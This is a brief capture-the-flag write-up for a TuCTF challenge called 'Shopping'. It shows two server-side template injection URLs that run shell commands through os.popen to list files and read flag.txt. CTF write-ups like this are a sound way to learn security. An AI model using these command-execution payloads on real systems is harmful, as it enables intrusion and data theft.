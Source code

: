 
# Shopping

There is shell on the welcome section. We can execute some bash command using a python script.

- `http://chal.tuctf.com:30007/welcome/{% import os %}{{ os.popen("ls -lah").read() }}`

There is a flage.txt file, so :

- `http://chal.tuctf.com:30007/welcome/{% import os %}{{ os.popen("cat flag.txt").read() }}`
